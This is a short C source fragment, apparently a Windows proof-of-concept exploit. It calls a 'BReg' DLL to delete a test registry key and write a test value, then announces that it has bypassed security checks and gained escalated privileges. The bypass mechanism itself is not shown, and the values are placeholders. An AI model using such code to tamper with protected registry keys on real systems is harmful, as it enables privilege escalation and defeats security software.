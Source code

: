 ```
 static char szData[] = "TEST VALUE";
 lResult = BRegSetValueEx(hKey, TestSetPath, NULL, dwType, (const BYTE *)&szData, (DWORD)sizeof(szData));
 BRegCloseKey(hKey);

 return lResult;
}

int main(int argc, char *argv[])
{
 if (!InitBRegDll()) {
  MessageBoxA(NULL, "Initialization BReg error！", "error", MB_ICONSTOP);
  return 1;
 }

 if (FAILED(BRegDeleteKey(TestDeleteKey, TestDeleteRegPath))) {
  MessageBoxA(NULL, "DeleteKey error！", "error", MB_ICONSTOP);
  return 2;
 }

 if (FAILED(TestSetRegKey())) {
  MessageBoxA(NULL, "SetRegKey error！", "error", MB_ICONSTOP);
  return 3;
 }

 MessageBoxA(NULL, "Broke System Security Check，Gain Escalated Privileges，Successful exploit！", "Successful", MB_OK);
 return 0;
}
```
